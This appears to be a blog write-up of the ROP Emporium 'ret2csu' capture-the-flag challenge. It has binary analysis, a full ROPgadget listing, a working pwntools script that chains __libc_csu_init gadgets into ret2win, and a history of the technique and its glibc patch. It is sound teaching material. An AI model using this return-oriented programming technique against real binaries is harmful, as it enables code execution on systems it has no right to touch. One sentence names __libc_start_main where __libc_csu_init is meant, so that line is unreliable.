





## ret2csu 

This is the final challenge. 

Run `file` and `checksec` as usual. 

```
$ file ret2csu
ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f722121b08628ec9fc4a8cf5abd1071766097362, not stripped
```

```
$ checksec ret2csu
[*] '/home/hwkim301/ropemporium/ret2csu/ret2csu'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

Let's check the library as well. 

```
$ file libret2csu.so 
libret2csu.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=6b956743341ca9fa25fcebd12a37747f6d029171, not stripped
```

```
$ checksec libret2csu.so
[*] '/home/hwkim301/ropemporium/ret2csu/libret2csu.so'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

Load the binary to ghidra.

Here's the `main` function. 

```c
undefined8 main(void)
{
  pwnme();
  return 0;
}
```

`main` calls `pwnme`, but it doesn't look like `pwnme` does much. 

```c
void pwnme(void)
{
                      /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

Now that there's nothing meaningful in the executable, let's check the shared library. 

Here's `pwnme`. 

Now that there's actual pseudo C code it already looks much better. 

```c 
void pwnme(void)

{
  undefined1 local_28 [32];
  
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("ret2csu by ROP Emporium");
  puts("x86_64\n");
  memset(local_28,0,0x20);
  puts(
      "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this  challenge.\n"
      );
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```

Here's `ret2win`. 

```c 
/* WARNING: Removing unreachable block (ram,0x00100c64) */
/* WARNING: Removing unreachable block (ram,0x00100ad5) */
/* WARNING: Removing unreachable block (ram,0x00100b9d) */

void ret2win(long param_1,long param_2,long param_3)

{
  int iVar1;
  FILE *pFVar2;
  int local_c;
  
  if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) ||
     (param_3 != -0x2ff20ff22ff20ff3)) {
    puts("Incorrect parameters");
                      /* WARNING: Subroutine does not return */
    exit(1);
  }
  pFVar2 = fopen("encrypted_flag.dat","r");
  if (pFVar2 == (FILE *)0x0) {
    puts("Failed to open encrypted_flag.dat");
                      /* WARNING: Subroutine does not return */
    exit(1);
  }
  g_buf = malloc(0x21);
  if (g_buf != (char *)0x0) {
    g_buf = fgets(g_buf,0x21,pFVar2);
    fclose(pFVar2);
    pFVar2 = fopen("key.dat","r");
    if (pFVar2 != (FILE *)0x0) {
      for (local_c = 0; local_c < 0x20; local_c = local_c + 1) {
         iVar1 = fgetc(pFVar2);
         g_buf[local_c] = g_buf[local_c] ^ (byte)iVar1;
      }
      *(ulong *)(g_buf + 4) = *(ulong *)(g_buf + 4) ^ 0xdeadbeefdeadbeef;
      *(ulong *)(g_buf + 0xc) = *(ulong *)(g_buf + 0xc) ^ 0xcafebabecafebabe;
      *(ulong *)(g_buf + 0x14) = *(ulong *)(g_buf + 0x14) ^ 0xd00df00dd00df00d;
      puts(g_buf);
                      /* WARNING: Subroutine does not return */
      exit(0);
    }
    puts("Failed to open key.dat");
                      /* WARNING: Subroutine does not return */
    exit(1);
  }
  puts("Could not allocate memory");
                      /* WARNING: Subroutine does not return */
  exit(1);
}
```

This part looks a bit funny, the parameters all seem to be negative integers. 

```c
if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) ||
     (param_3 != -0x2ff20ff22ff20ff3))
```

Unlike IDA, ghidra doesn't allow you to change the negative numbers to hexadecimal with the `h` key. 

You can right click and select `char` to change it, but it looks horrible. 

There has to be a way to properly show them as hexadecimals but I have no idea. 

```c
if (((param_1 != L'\xdeadbeef') || (param_2 != L'\xcafebabe')) || (param_3 != L'\xd00df00d'))
```

We'll just have to improvise and leave it like that.

Consider it to be a quick fix. 

The goal of this challenge is to call `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`.

All we need to do is find a `pop rdi pop rsi pop rdx ret` gadget.

Then, set up the parameters to call `ret2win`.

Let's run `ROPgadget` and check if there's a `pop rdi pop rsi pop rdx ret` gadget.

```
$ ROPgadget --binary ret2csu 
Gadgets information
============================================================
0x000000000040057e : adc byte ptr [rax], ah ; jmp rax
0x0000000000400502 : adc cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400549 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x000000000040054f : add bl, dh ; ret
0x00000000004006ad : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006ab : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400507 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400611 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fc : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x00000000004006ac : add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x00000000004005fd : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x0000000000400509 : add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400586 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fe : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x000000000040054e : add byte ptr [rax], al ; repz ret
0x0000000000400585 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040054d : add byte ptr [rax], r8b ; repz ret
0x00000000004005ff : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x00000000004005e7 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400517 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x4004f0
0x00000000004005e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret
0x00000000004004e3 : add esp, 8 ; ret
0x00000000004004e2 : add rsp, 8 ; ret
0x0000000000400548 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400504 : and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400514 : and byte ptr [rax], al ; push 1 ; jmp 0x4004f0
0x00000000004004d9 : and byte ptr [rax], al ; test rax, rax ; je 0x4004e2 ; call rax
0x000000000040062e : call qword ptr [rax + 0x2e66c35d]
0x0000000000400793 : call qword ptr [rax]
0x00000000004004e0 : call rax
0x000000000040068c : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040054a : hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400603 : in eax, 0x5d ; jmp 0x400590
0x00000000004004de : je 0x4004e2 ; call rax
0x0000000000400579 : je 0x400588 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005bb : je 0x4005c8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004002cc : jmp 0x4002a1
0x000000000040050b : jmp 0x4004f0
0x0000000000400605 : jmp 0x400590
0x00000000004007d3 : jmp qword ptr [rbp]
0x0000000000400581 : jmp rax
0x00000000004006f3 : jmp rsp
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
0x000000000040062f : nop ; pop rbp ; ret
0x0000000000400583 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x000000000040054b : nop dword ptr [rax + rax] ; repz ret
0x00000000004005c5 : nop dword ptr [rax] ; pop rbp ; ret
0x00000000004005e5 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400512 : or cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 1 ; jmp 0x4004f0
0x00000000004005e4 : or r12b, byte ptr [r8] ; add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x00000000004006a2 : pop r15 ; ret
0x0000000000400604 : pop rbp ; jmp 0x400590
0x000000000040057b : pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040069b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret
0x000000000040069d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400506 : push 0 ; jmp 0x4004f0
0x0000000000400516 : push 1 ; jmp 0x4004f0
0x0000000000400600 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400550 : repz ret
0x00000000004004e6 : ret
0x00000000004004dd : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004004d7 : sbb eax, 0x4800200b ; test eax, eax ; je 0x4004e2 ; call rax
0x00000000004006b5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004006b4 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004006aa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x00000000004004dc : test eax, eax ; je 0x4004e2 ; call rax
0x00000000004004db : test rax, rax ; je 0x4004e2 ; call rax

Unique gadgets found: 78
```

Uh, oh a `pop rdi pop rsi pop rdx ret` gadget doesn't exist.

```bash 
$ ROPgadget --binary ret2csu | grep -E "pop rdi|pop rsi|pop rdx"
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret
```

The problem description hints us that it's not a good idea to directly search `pop rdi pop rsi pop rdx ret`.

Instead it informs us that we should try to see if there are any helpful gadgets in the `__libc_csu_init` function.

Let's go back and load the executable to ghidra. 

Even though, the executable didn't do much, it has a `__libc_csu_init` function. 

Inside the function, there's an instruction like this.

`mov rdx, r15`, `mov rsi, r14` and `mov edi, r13d`.



If we can leverage to save `0xd00df00dd00df00d` to `r15` and execute `mov rdx, r15` that will set up the third parameter properly.

In a similar manner, if we can store `0xcafebabecafebabe` to `r14` and execute `mov rsi, r14` that would set up the second parameter.

But what exactly is the `__libc_csu_init` function? 

`__libc_csu_init` is an startup function that get's run before the actual program begins.

Patrick Horgan wrote a very detailed post [here](http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html).

Understanding Patrick's post will be quite difficult. 

Another important factor is that we need to set `rbp` equal to `rbx` in order to pass the `cmp rbp rbx` instruction.



If `rbp` and `rbx` isn't the same, we won't be able to execute the `pop r15` gadget.

Right before the `cmp rbp, rbx` instruction `add rbx, 0x1` gets executed first. 

In order to bypass the `cmp` instruction we'll need to set `rbp` to `1`.

Here's the pwntools code. 

```python 
from pwn import *

p = process('./ret2csu')
e = ELF('./ret2csu')
r = ROP(e)

csu_gadget1 = 0x40069A  # pop rbx, pop rbp, pop r12, pop r13, pop r14, pop r15,ret
csu_gadget2 = 0x400680  # mov rdx, r15 + mov rsi,r14 + mov edi, r13 + call [r12+rbx*0x8]

payload = b'A' * 40
payload += p64(csu_gadget1)
payload += p64(0)  # set rbx to 0
payload += p64(1)  # set rbp to 1
payload += p64(0x600DF0)  # frame_dummy
payload += p64(0)
payload += p64(0)
payload += p64(0xD00DF00DD00DF00D)
payload += p64(csu_gadget2)
payload += b'A' * 8
payload += 6 * p64(0)

payload += p64(r.find_gadget(['pop rdi', 'ret']).address)
payload += p64(0xDEADBEEFDEADBEEF)
payload += p64(r.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
payload += p64(0xCAFEBABECAFEBABE)  # set rsi to 0xcafebabecafebabe
payload += p64(0)  # set r15 to 0
payload += p64(e.symbols['ret2win'])


p.send(payload)
p.interactive()
```

First send dummy bytes until overwriting the saved frame pointer. 

Next, overwrite the saved return address with `pop rbx pop rbp  pop r12 pop r13, pop r14 pop r15 ret`.

Then set `rbx` to `0` and `rbp` to `1` so we can bypass the `cmp` instruction. 

Now here comes the difficult part. 

We need to save something to `r12`. 



This is related to the `CALL qword ptr [r12 + rbx*0x8]` instruction. 

We don't need to think too much about `rbx * 0x8` because `rbx` is `0`.

Now that `rbx` is `0`, it will essentially execute the `CALL qword ptr [r12]` instruction. 

This will dereference what `r12` holds and continue program execution there.

However, you need to be extremely careful about what you pass to `r12`.

If you pass a memory address that has instructions which tinker any of the `rdi`, `rsi`, `rdx`, you'll get a `SIGSEGV` and the program will crash.

Ghidra will show you which function `r12` will dereference if the program doesn't crash. 

It will dereference the `__frame_dummy_init_array_entry`. 



One caveat is that you should not pass the actual address of the `frame_dummy` function.


The moment you pass `0x400600`, the actual address of `frame_dummy` you'll experience critical issues. 

`CALL [r12]` will go to the assembly of the function prologue.


Since the function prologue isn't a valid memory address you'll get a `SIGSEGV`.

And boom, you're program will crash. 

Instead if you pass `0x600df0`, `CALL [r12]` will dereference `0x600df0`.

The program  will continue execution at `0x400600` which is what we want. 

After that fill `r13` and `r14` each with a `0`.

Here's the code that does just that. 

```python 
csu_gadget1 = 0x40069A  # pop rbx, pop rbp, pop r12, pop r13, pop r14, pop r15,ret
csu_gadget2 = 0x400680  # mov rdx, r15 + mov rsi,r14 + mov edi, r13 + call [r12+rbx*0x8]

payload = b'A' * 40
payload += p64(csu_gadget1)
payload += p64(0)  # set rbx to 0
payload += p64(1)  # set rbp to 1
payload += p64(0x600df0) # frame_dummy
payload += p64(0)  # set r13 to 0 
payload += p64(0)  # set r14 to 0 
```

We will continue to pass `0xd00df00dd00df00d` right after `pop r15 ret`,

Overwrite the saved return address with the address of `mov rdx, r15 + mov rsi, r14 + mov edi, r13 + call [r12 + rbx * 0x8]` instruction.

The `r15` which holds `0xd00df00dd00df00d` will be copied to `rdx`.

One parameter down two more to go. 



For some reason, as you can see there's a `add rsp, 8` instruction before the gadgets.

Due to the `add rsp, 8` instruction, the  stack pointer moved `8` bytes. 

Now you'll need to fill that extra `8` bytes with dummy data. 

That is why, I sent another `8` bytes with `payload += b'A' * 8`.

Now the `pop rbx  pop rbp  pop r12  pop r13  pop r14  pop r15 ret` instruction initiates. 

We'll need to set `rbx`, `rbp`, `r12`, `r13`, `r14`, `r15` respectively to a certain value. 

I don't think the value we pass will actually matter, that is why I did `6 * p64(0)`.

The program will continue execution, let's overwrite the saved return address so it points `pop rdi ret`. 

If we pass a value right after it, we can set the `rdi` register. 

We're going to pass `0xdeadbeefdeadbeef`.

Now we only need to set `rsi` in order to call `ret2win`.

Luckily there's a `pop rsi, pop r15 , ret`. 

Pass `0xcafebabecafebabe` to `rsi` and `0` or whatever value you'd like to `r15`

At last, we've managed to set up the `3` parameters for the `ret2win` function call. 

Then overwrite the return address with `ret2win`.

That was the last ropemporium challenge.

I don't know why but maybe it's because I'm not a ctfer getting a flag doesn't mean a lot to me. 

I'm more interested in how the vulnerability existed and whether or not it was patched.

Let's go back to Patrick's [post](http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html).

Back when Patrick wrote his post, the `__libc_csu_init` used to look like this.

```c
void __libc_csu_init (int argc, char **argv, char **envp)
{

  _init ();

  const size_t size = __init_array_end - __init_array_start;
  for (size_t i = 0; i < size; i++)
      (*__init_array_start [i]) (argc, argv, envp);
}
```

In the past, `__libc_csu_init` was the program's constructor. 

Although, C isn't an OOP language the concept of constructors existed way before the rise of C++. 

In the past glibc also had a `__libc_csu_fini` which was the destructor.

The program would kickoff by executing some code in the `.init` section. 

That would correspond to `  _init ();` in the C code. 

Then it would calculate the number of functions to prepare with `  const size_t size = __init_array_end - __init_array_start;`.

Finally, the for loop would initiate the arguments that main uses to these functions as well.

```c
for (size_t i = 0; i < size; i++)
    (*__init_array_start [i]) (argc, argv, envp);
```

Decades ago, `ELF` files had to prepare it's program execution by using a constructor before calling the `main` function. 

After digging stuff on google I found [this](https://auntitled.blogspot.com/2011/09/rop-with-common-functions-in.html) and [this](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html).

Way before 2018, around 2011~2013 people were already digging to find gadgets in the `__libc_csu_init` function. 

A couple of years later in 2018, Dr. Hecto Marco-Gisbert and Dr. Ismael Ripoll-Ripoll probably generalized the concepts mentioned above and published [ret2csu](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) as an official paper.

Florian Weimer, one of the glibc maintainers were aware of the `ret2csu` attack and quickly decided to [respond](https://sourceware.org/legacy-ml/libc-alpha/2018-06/msg00717.html) to it. 

The glibc maintainers are extremely cautious about back-portability.

That's why even though they immediately patched `__libc_csu_init`, It looks like it ook some time to completely remove it. 

`__libc_start_main` is now exterminated from `glibc 2.34` and later. 

You can check the patch [here](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=035c012e32c11e84d64905efaf55e74f704d3668
).

I used gal2xy's writeup [here](https://gal2xy.github.io/2024/06/16/PWN/ROP%E5%85%A5%E9%97%A8/#ret2csu) as a reference.

You might wonder why there isn't a 32bit version of ret2csu?

If you can recall all the previous challenges had a 32bit version. 

It's because unlike x86-64, x86 uses the stack instead of registers to pass arguments. 

As a result, the pop gadgets in `__libc_csu_init` won't help you too much for setting up arguments.